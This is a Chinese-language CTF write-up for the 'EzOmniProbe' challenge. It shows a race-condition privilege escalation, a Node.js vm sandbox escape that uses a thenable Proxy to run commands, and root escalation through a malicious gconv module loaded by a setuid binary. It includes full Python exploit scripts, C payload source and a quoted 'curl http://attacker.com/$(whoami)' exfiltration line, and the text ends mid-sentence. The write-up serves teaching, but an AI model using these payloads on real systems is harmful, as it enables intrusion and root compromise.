EzOmniProbe wp
概括¶
信息收集¶

可以看到页面显示了几个接口还有当前的身份GET /api/meGET /api/statsPOST /api/verifyPOST /api/runGET /api/run?cursor=N- 访问每个接口抓包寻找有用信息
GET /api/me
该接口的响应头中有X-Session-Id: fd1ddc75e8243d6c3b22d7f23695b031会将后续所有请求的会话凭证，因此需要先固定好自己的X-Session-Id，让后续所有请求都在同一个 session中 如何实现：每次请求都在请求头中带固定携带已经获取的X-Session-Id即可GET /api/stats
这个接口会给出类似last_verify_activity一类的状态信息。从这个字段我们可以得知后台应该有个东西在按固定频率持续跑。POST /api/verify
这个接口本身的语义不像“同步校验成功就直接升权”的风格，访问返回的信息"Queued for verifier heartbeat"表明请求被放入了一个队列中- 结合
GET /api/stats和POST /api/verify两个接口可以大致推断- 外部请求可能只是把自己放进一个待验证状态
- 后面还有另一个固定节奏的内部请求，会来处理这个状态
- 只有这两个动作在时间上撞到一起，权限才会真的变化
也就是说，这题前半段大概率不是传统认证逻辑，而是 race condition
如何通过race condition实现提权

已经提权成功
- 拿到 admin 以后，再进一步扫描可以发现两个隐藏路由

/admin/debug/source直接暴露了源码
- 提取
POST /api/run和GET /api/run?cursor=N接口的源码并分析源码逻辑POST /api/runapp.post('/api/run', async (req, res) => { const store = als.getStore(); if (!store || store.role !== 'admin') return res.status(403).json({ error: 'Denied' }); const { code } = req.body; if (typeof code !== 'string' || code.length > 255) return res.status(400).send('WAF: Length'); const blacklist = /then|constructor|process|require|eval|=>|catch/g; if (blacklist.test(code)) return res.status(400).send('WAF: Keyword'); try { const acorn = require('acorn'); const ast = acorn.parse(code, { ecmaVersion: 2020 }); if (containsBlockedAstPattern(ast)) return res.status(400).send('WAF: Fold'); } catch (e) { return res.status(400).send('Syntax Error'); } const context = vm.createContext(Object.create(null)); try { const result = await vm.runInContext(code, context, { timeout: 1000 }); store.lastRunOutput = String(result); res.status(204).end(); } catch (e) { res.status(500).send('Runtime Error'); } });- 先校验了身份，然后校验命令长度限制255
- 然后校验关键字黑名单
thenconstructorprocessrequireevalcatch作用：直接拦截常见危险词和箭头函数
- 然后进行AST 常量折叠检测 作用：在语法树层面检测危险模式（比如 Function() 调用、eval() 调用、constructor 访问等）
- 最后真正执行在
vm.createContext(Object.create(null))Object.create(null) 创建了一个无原型的干净对象，常规的 toString、valueOf 都不存在 但是 await 会触发 result.then 的调用，这是逃逸的关键点 如何实现 payload 的构造思路是这样的：
GET /api/run?cursor=N执行结果会先被写到：app.get('/api/run', (req, res) => { const store = als.getStore(); if (!store || store.role !== 'admin') return res.status(403).json({ error: 'Denied' }); const cursor = Number.parseInt(req.query.cursor, 10); if (!Number.isInteger(cursor) || cursor < 0) { return res.status(400).json({ error: 'Cursor required' }); } const output = typeof store.lastRunOutput === 'string' ? store.lastRunOutput : ''; res.json({ char: output[cursor] || '' }); });store.lastRunOutput然后再通过： 一位一位取出来。- payload
import requests import json URL = "http://127.0.0.1:41715" SID = "29888e2f02c32acc6016066350784122" def run_cmd(cmd): payload = f'new Proxy({{}},{{get(){{return function(a){{b=Reflect.ownKeys(a.__proto__)[4];c=a[b](decodeURI("return %70rocess"))();return a(c.mainModule[b]._load(decodeURI("child_%70rocess")).execSync("{cmd}"))}}}}}})' r = requests.post(f"{URL}/api/run", headers={"X-Session-Id": SID, "Content-Type": "application/json"}, json={"code": payload}) if r.status_code != 204: print(f"Error: {r.status_code} - {r.text}") return None result = "" cursor = 0 while True: r = requests.get(f"{URL}/api/run", headers={"X-Session-Id": SID}, params={"cursor": cursor}) char = r.json().get("char", "") if not char: break result += char cursor += 1 return result print(run_cmd("id")) - 逃逸成功，不过可以看到当前身份权限太低需要提权

- payload
- 通过RCE执行ls命令发现当前目录下有一个
omni_pkexec.c文件是setuid 程序的 C 源码，可以通过setuid提权
- RCE查看
omni_pkexec用法/usr/local/bin/omni_pkexec --help 2>&1
- 攻击步骤
- 修改 gconv-modules 内容 echo 'module OMNI-LEGACY// INTERNAL omni 2' > /tmp/gconv-modules
- 重命名 .so 文件 mv /tmp/gconv_pwn.so /tmp/omni.so
- 设置环境变量并触发 export CHARSET=OMNI-LEGACY// export SHELL=omni export OMNI_GCONV_PATH=/tmp /usr/local/bin/omni_pkexec
- 恶意 gconv-modules代码
#define _GNU_SOURCE #include <stdio.h> #include <stdlib.h> #include <unistd.h> int gconv_init(void) { // 这个函数在模块加载时执行 FILE *fp = fopen("/flag", "r"); if (fp) { char flag[256]; fread(flag, 1, sizeof(flag), fp); fclose(fp); fp = fopen("/tmp/flag.txt", "w"); if (fp) { fwrite(flag, 1, strlen(flag), fp); fclose(fp); } } return 0; } int gconv(void) { return 0; } - POC
完整链¶
1. 固定会话 ID //确保竞态条件在同一会话中
2. 竞态条件 → 成为 admin //从 guest 提权到 admin
3. 隐藏路由扫描 //找到 /admin/debug/source 获取源码
4. 分析 vm 执行逻辑,构造 Thenable 沙箱逃逸 payload //绕过 WAF 执行系统命令
5. 通过 Oracle 方式读取命令结果 //获取低权限命令执行结果
6. 触发 setuid 程序+gconv 模块提权 //从低权限提权到 root
7. 读取最终 /flag
具体步骤¶
- 在服务端/tmp目录下创建evil.c源文件，注意分块传输base64编码后的内容，不让长度超过限制，然后解码，编译成omni.so文件
import requests import time import base64 URL = "http://127.0.0.1:59995" SID = "a8fc75f9ed2425fa585d82e221b79bd8" def run_cmd(cmd): payload = f'new Proxy({{}},{{get(){{return function(a){{b=Reflect.ownKeys(a.__proto__)[4];c=a[b](decodeURI("return %70rocess"))();return a(c.mainModule[b]._load(decodeURI("child_%70rocess")).execSync("{cmd}"))}}}}}})' try: r = requests.post(f"{URL}/api/run", headers={"X-Session-Id": SID, "Content-Type": "application/json"}, json={"code": payload}, timeout=10) if r.status_code != 204: return None except: return None result = "" cursor = 0 while True: try: r = requests.get(f"{URL}/api/run", headers={"X-Session-Id": SID}, params={"cursor": cursor}, timeout=10) if r.status_code != 200: break char = r.json().get("char", "") if not char: break result += char cursor += 1 except: break return result print("=" * 60) print("Writing evil.c properly") print("=" * 60) # 清空并重写 evil.c evil_c = '''#define _GNU_SOURCE #include <stdio.h> #include <stdlib.h> void gconv_init(void) { system("chmod 777 /flag"); system("cp /flag /tmp/flag.txt"); } void gconv(void) {} ''' c_b64 = base64.b64encode(evil_c.encode()).decode() total = len(c_b64) print(f"Base64 length: {total}") print("\n" + "=" * 60) print("STEP 3: Uploading base64") print("=" * 60) chunk_size = 30 # 每块 30 字符 requests_per_batch = 300 # 每批 300 次请求 batch_size = chunk_size * requests_per_batch # 9000 字符 wait_time = 30 # 每批休息 30 秒 total_batches = (total + batch_size - 1) // batch_size print(f" Total base64: {total} chars") print(f" Chunk size: {chunk_size} chars") print(f" Requests per batch: {requests_per_batch}") print(f" Batch size: {batch_size} chars") print(f" Total batches: {total_batches}") print(f" Wait per batch: {wait_time} seconds") print(f" Estimated time: {total_batches * wait_time // 60} minutes") for batch_num in range(total_batches): batch_start = batch_num * batch_size batch_end = min(batch_start + batch_size, total) batch = c_b64[batch_start:batch_end] print(f"\n Batch {batch_num + 1}/{total_batches}") print(f" Chars {batch_start}-{batch_end} ({len(batch)} chars)") # 分块写入 for i in range(0, len(batch), chunk_size): chunk = batch[i:i+chunk_size] if batch_num == 0 and i == 0: run_cmd(f"echo -n '{chunk}' > /tmp/evil.b64") else: run_cmd(f"echo -n '{chunk}' >> /tmp/evil.b64") print(f" Batch {batch_num + 1} complete") if batch_num < total_batches - 1: print(f" Waiting {wait_time} seconds...") time.sleep(wait_time) print("\n" + "=" * 60) print("STEP 4: Verifying upload") print("=" * 60) result = run_cmd("wc -c < /tmp/evil.b64 2>/dev/null") print(f" Uploaded: {result} bytes") print(f" Expected: {total} bytes") if result and int(result) == total: print(" [SUCCESS] Upload complete!") run_cmd("base64 -d /tmp/evil.b64 > /tmp/evil.c") else: print(" [FAILED] Upload incomplete!") exit(1) print("\n" + "=" * 60) print("STEP 5: Verifying evil.c") print("=" * 60) print(run_cmd("cat /tmp/evil.c")) c_b64 = base64.b64encode(evil_c.encode()).decode() run_cmd("rm -f /tmp/evil.c /tmp/evil.so /tmp/flag.txt") run_cmd(f"echo '{c_b64}' | base64 -d > /tmp/evil.c") print("evil.c created") print("\n" + "=" * 60) print("Step 2: Compiling evil.so") print("=" * 60) run_cmd("gcc -shared -fPIC -o /tmp/evil.so /tmp/evil.c 2>&1") result = run_cmd("ls -la /tmp/evil.so") print(f"Compilation result: {result}")
- 在/tmp目录下创建gconv-modules文件写入module OMNI-LEGACY// INTERNAL omni 2
设置环境变量，通过将命令追加写入脚步文件绕过命令长度限制
run_cmd("echo 'module OMNI_LEGACY// INTERNAL omni 2' > /tmp/gconv-modules") run_cmd("echo 'export CHARSET=OMNI-LEGACY//; ' > /tmp/setenv.sh") run_cmd("echo 'export SHELL=omni; ' >> /tmp/setenv.sh") run_cmd("echo 'export OMNI_GCONV_PATH=/tmp ' >> /tmp/setenv.sh") print(run_cmd("cat /tmp/setenv.sh'"))
- 然后同时运行/tmp/setenv.sh和/usr/local/bin/omni_pkexec
cmd = ". /tmp/setenv.sh && /usr/local/bin/omni_pkexec" run_cmd(cmd) print(run_cmd("ls -la /flag")) print(run_cmd("cat /flag 2>/dev/null"))
知识点整理¶
- 会话固定与会话连续性保持（Session Continuity）
- 会话 ID：服务端用于区分不同客户端的状态标识，通常通过 Cookie 或自定义请求头传递。
- 会话固定：攻击者先获取一个合法会话 ID，然后强制受害者使用该 ID，从而劫持受害者身份
- 为什么本题需要进行会话固定
- 因为本题的权限提升逻辑是：后台有一个按 session 隔离的待验证队列 + 定时任务按 session 提升角色
- 逻辑拆解
- 发 POST /api/verify → 服务端把你的 X-Session-Id 放入队列
- 后台定时任务 → 从队列取一个 session_id → 修改该 session 对应的角色
- 查询 /api/me → 返回当前 session 的角色
- 逻辑结论：
- 哪些其他类型的题目也需要“固定会话”或“保持同一身份”？

- 竞态条件（Race Condition）与权限提升
- 竞态条件：多个线程/进程同时访问共享资源时，执行顺序不一致导致意外结果。
- 本题中，/api/verify 可能只是“提交验证请求”，后台有另一个定时任务扫描并提升权限。如果能在后台任务检查的时刻恰好多次触发 /api/verify，就可能提前或重复获得 admin。
- 扩展知识 TOCTOU（Time of Check to Time of Use）：检查与使用之间的时间差导致漏洞。常见于文件上传、权限修改、支付逻辑。 防御：使用原子操作、锁、事务、信号量。
- 隐藏路由/接口枚举
- 常见手段： 目录扫描（dirsearch、gobuster、ffuf） 前端 JS 文件中搜索路由关键词（/api/、/admin、debug、source） 根据已知接口命名规律推测（如 /api/me → /admin/me） 响应头中泄露（X-Powered-By、Server 等不相关，但有时会暴露路由）
- 本题用法： 在获得 admin 权限后，用同样固定的 X-Session-Id 尝试访问： 其中 /admin/debug/source 返回了后端源码。
- 扩展知识： 有些框架会自动暴露路由列表（如 Spring Boot Actuator /mappings） 404 页面的差异可以判断路径是否存在（错误信息不同、响应长度不同） HTTP 方法探测：OPTIONS /admin 可能返回 Allow: GET,POST
- AST 与常量折叠检测
- 知识点解释 AST（Abstract Syntax Tree）：代码的树状结构表示。 常量折叠：编译器优化，如 1 + 2 直接变成 3。 本题用 acorn 解析代码 AST，然后调用 containsBlockedAstPattern 检查是否有危险模式（如 Function、eval 的调用）
- 扩展知识 AST 绕过的常见方法： 使用 Reflect、Proxy 动态访问属性。 利用 [][‘flat’][‘constructor’] 等怪异语法。 通过 Object.getOwnPropertyDescriptor 获取隐藏方法。 防御：使用 eslint 或自定义 AST 规则，但动态代码很难完全静态检测。
- JavaScript 沙箱逃逸（vm 模块与 thenable）
- 知识点解释 Node.js 的 vm 模块可创建隔离的 JavaScript 执行环境。 但 vm 并非绝对安全，通过 thenable 对象（即包含 .then 方法的对象）可以逃逸。 当 await 一个 thenable 对象时，Node.js 会调用它的 .then 方法，并传入宿主环境的 resolve 函数。 通过 resolve 的构造函数或原型链，可能拿到未隔离的对象（如 process、require）
- 本题用法 黑名单过滤了 then、constructor、process、require 等字符串。 使用 Proxy 对象动态拦截属性访问，避免直接写出黑名单词。 返回一个 thenable 对象，当 await 时触发 get trap，拿到宿主回调，进而构造出 require('child_process').execSync 等命令执行函数
- 扩展知识 常见沙箱逃逸手法： 通过 constructor.constructor 拿到 Function。 通过 this 或 arguments.callee 回溯到全局对象。 利用 Error.prepareStackTrace 获取调用栈信息。 防御：使用 --disallow-code-generation-from-strings 或 vm 模块的 context 彻底冻结原型链。
- Oracle 式结果读取
- 知识点解释 Oracle 攻击：无法直接读取完整结果，只能一次问一个比特或一个字符。 常见于 SQL 盲注、命令执行无回显、带宽限制等场景。
- 本题用法 执行命令后，输出被截断或无法直接显示。 通过循环请求 /api/run?cursor=0、cursor=1…… 逐字符拼接出完整执行结果。例如：cat /etc/passwd 的结果通过该接口一位一位泄露。
- 扩展知识 攻击方式： 基于时间盲注：if(ascii(substr(data,1,1))>100) sleep(1) 基于错误回显：触发特定错误码 基于 DNS 外带：curl http://attacker.com/$(whoami) 防御：限制请求频率、过滤特殊字符、使用白名单输出。
- setuid 程序与 gconv 提权
- 知识点解释 setuid：Linux 中让普通用户以文件所有者的权限运行程序。 gconv：glibc 的字符集转换模块，可通过 GCONV_PATH 环境变量加载恶意模块。 攻击方式：编译一个恶意 .so 文件，其中 gconv_init 函数执行系统命令（如读取 /flag）。
- 本题用法 Web 服务是低权限用户，直接无法读 /flag。 存在一个 setuid 程序 /usr/local/bin/omni_pkexec，以高权限运行。 通过命令执行触发该程序，或设置 GCONV_PATH 让高权限进程加载恶意 gconv 模块，从而读取 flag。
-
扩展知识
-
为什么 gconv 可以用于提权？ 核心原理： glibc 允许通过环境变量 GCONV_PATH 指定自定义模块目录 如果一个 setuid root 程序调用了 iconv_open()，它会以 root 权限加载模块 攻击者可以编译恶意 .so 模块，在 gconv_init() 中执行任意代码 通过设置 GCONV_PATH，让 setuid 程序加载恶意模块 → 以 root 权限执行恶意代码
-
gconv 提权步骤：
- 创建恶意 gconv-modules 文件 作用：告诉 glibc 哪个字符集对应哪个 .so 模块 文件格式： 含义： 当请求从 PWN 字符集转换到 UTF-8 时 加载名为 gconv_pwn.so 的模块 优先级为 1（数字越大优先级越高） 创建命令：
